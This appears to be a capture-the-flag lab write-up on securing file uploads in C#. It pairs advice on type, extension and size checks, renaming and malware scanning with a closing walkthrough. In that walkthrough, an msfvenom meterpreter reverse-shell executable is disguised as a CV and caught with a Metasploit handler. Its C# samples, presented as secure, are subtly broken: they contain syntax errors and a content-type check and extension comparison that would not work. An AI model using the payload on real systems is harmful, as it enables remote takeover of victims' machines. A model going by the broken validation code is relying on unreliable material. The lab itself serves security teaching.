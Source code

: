 ```yaml
---
title: Day 15 - Secure Coding (Securing File Upload)
desc: >-
  Day 15 covers topics related to input validation of file upload functionality,
  unrestricted file upload vulnerabilities and how to properly secure file
  upload functionality.
---
```

## Unrestricted File Uploads

Poor handling of file uploads can lead to serious vulnerabilities ranging from minor annoyances to full Remote Code Execution (RCE) if an attacker manages to upload and execute a shell. 

Unrestricted file uploads usually have two main exploitation paths:

- Code execution if the uploaded file can be retrieved/accessed.
- Uploaded files viewed by another user can be a vector for a phishing attack via embeded malware in the uploaded file to execute code.

## Web Root

When a resource is requested with a specific file type (eg. ASP, ASPX, CSHTML, PHP), the webserver will first execute the instructions found in the resource before sending the compiled response back to the user.

With unrestricted file upload allowed, an attacker could upload one of these special types of files with malicious code. If this file is stored in the `web root`, the attacker could request the file from the server, thus forcing the server to execute the code within the file before sending the response leading to `Remote Code Execution` on the server.

If the malicious file is stored outisde the `web root`, an attacker cannot make a request that would retrieve the uploaded file. However, this protection is not sufficient for two main reasons:

- Vulnerabilities such as `Local File Inclusion (LFI)` may exist that allow an attacker to force the webserver itself to recover the file that was stored outside the web root. If the file is recoverable, the code within the file can be executed allowing for RCE.
- In cases were RCE may not be possible, knowing that a human will be interacting with the uploaded file opens up phishing vectors to allow malicious code to execution.

## Properly Securing File Uploads

To adequately secure a file upload feature, layers of defence need to be implemented. Let's use the following C# file upload as a case study.

```csharp
public IActionResult OnPostUpload(FileUpload fileUpload)
  {
    var fullPath = "D:\CVUploads\"
    var formFile = fileUpload.FormFile;
    var filePath = Path.Combine(fullPath, formFile.FileName);

    Using (var stream = System.IO.File.Create(filePath))
    {
      formFile.CopyToAsync(stream);
    }
  }
```

### File Content Validation

The content of a file can be validated by reviewing the `ContentType` header in the server response when the file is uploaded. If the file content type is not what is expected, the file should be rejected. It should be noted that the `ContentType` header can be manipulated by intercepting the requested using `Burp Suite`.

The example below validates the `ContentType` header and rejects the file if it does not match `PDF`.

```csharp
string contentType = fileUpload.ContentType.Split('/')[1].ToLower();
if !(contentType.equals("ContentType=PDF")
    {
        allowed = False;
    }
```

### File Extension Validation

Validating file extensions for uploaded files is another good way of adding another layer of defence. Ideally, file extension validation should be implemented with an `allowlist` rather than a `rejectlist` (ie. default reject-all except what is on the allowlist) since a blocklist can still be bypassed in certain cases.

In the following example, the extension of the uploaded file is compared to the allowed list (PDF). If the extension does not match, the file is rejected.

```csharp
string contentExtension = Path.GetExtension(fileUpload);
if !(contentExtension.equals("PDF"))
    {
        allowed = False;
    }
```

### File Size Validation

File size validation is a good practice to ensure that a threat actor does not upload a large size file thereby filling up the space allocated on the webserver. This can result in a psuedo `Denial of Service` attack on other users who might wish to upload files.

The following example, limits uploaded file size to 10Mb.

```csharp
int contentSize = fileUpload.ContentLength;
//10Mb max file size
int maxFileSize = 10 * 1024 * 1024
if (contentSize > maxFileSize)
    {
        allowed = False;
    }
```

### File Renaming

Eventhough the uploaded files are stored outside the `web root`, an attacker could leverage `LFI` vulnerabilities to execute malicious code contained in the file. A good counter to this is to randomize the name of the uploaded file to prevent the attacker from recovering their file by name (IDOR and LFI).

```csharp
Guid id = Guid.NewGuid();
var filePath = Path.Combine(fullPath, id + ".pdf");
```

### Malware Scanning

The addition of above mentioned controls still contains the risk of an attacker uploading a malicious file with the aim of exploiting the phishing attack vector. A good practice is to scan the uploaded file for any malicious code using a malware scanner such as `ClamAV`.

```csharp
var clam = new ClamClient(this._configuration["ClamAVServer:URL"],Convert.ToInt32(this._configuration["ClamAVServer:Port"])); 
var scanResult = await clam.SendAndScanFileAsync(fileBytes);  

if (scanResult.Result == ClamScanResults.VirusDetected)
    {
        allowed = False;
    }; 
```

### Putting it all Together

Implementing all of the above techniques gives us a much more secure file upload utility.

```csharp
public IActionResult OnPostUpload(FileUpload fileUpload)
    {
        var allowed = True;

        //Store file outside the web root   
        var fullPath = "D:\CVUploads\"

        var formFile = fileUpload.FormFile;

        //Create a GUID for the file name
        Guid id = Guid.NewGuid();
        var filePath = Path.Combine(fullPath, id + ".pdf");

        //Validate the content type
        string contentType = fileUpload.ContentType.Split('/')[1].ToLower();
        if !(contentType.equals("ContentType=PDF")
            {
                allowed = False;
            }

       //Validate the content extension
       string contentExtension = Path.GetExtension(fileUpload);
       if !(contentExtension.equals("PDF"))
           {
               allowed = False;
           }

       //Validate the content size
       int contentSize = fileUpload.ContentLength;
       //10Mb max file size
       int maxFileSize = 10 * 1024 * 1024
       if (contentSize > maxFileSize)
           {
               allowed = False;
           }

       //Scan the content for malware
       var clam = new ClamClient(this._configuration["ClamAVServer:URL"],Convert.ToInt32(this._configuration["ClamAVServer:Port"])); 
       var scanResult = await clam.SendAndScanFileAsync(fileBytes);  

       if (scanResult.Result == ClamScanResults.VirusDetected)
           {
                allowed = False;
           };

       //Only upload if all checks are passed
       if (allowed)
       {
            using (var stream = System.IO.File.Create(filePath))
                {
                    formFile.CopyToAsync(stream);
                }
       }
    }
```

## CTF Questions

Experimenting with the file upload web-app, we find that the utility does not enforce any kind of file-type filtering. The application allows unrestricted file upload; however, the uploaded file is not directly accessible by us. We do know however that a person will physically be interacting with the file we upload which opens up the an exploit vector.

Let's craft a malicious payload which we can upload using `msfvenom`.

```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=9999 -f exe -o cv.exe
```

Before uploading the file, let's fire up `Metasploit` and get our listener ready.

```text
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 9999; exploit"
```

Upload the file and wait for the callback. Drop into a `Meterpreter shell` using the command `shell`.

Navigate to `C:\Users\HR_Elf\Documents` and use `type flag.txt` to read-out the flag: `THM{Naughty.File.Uploads.Can.Get.You.RCE}`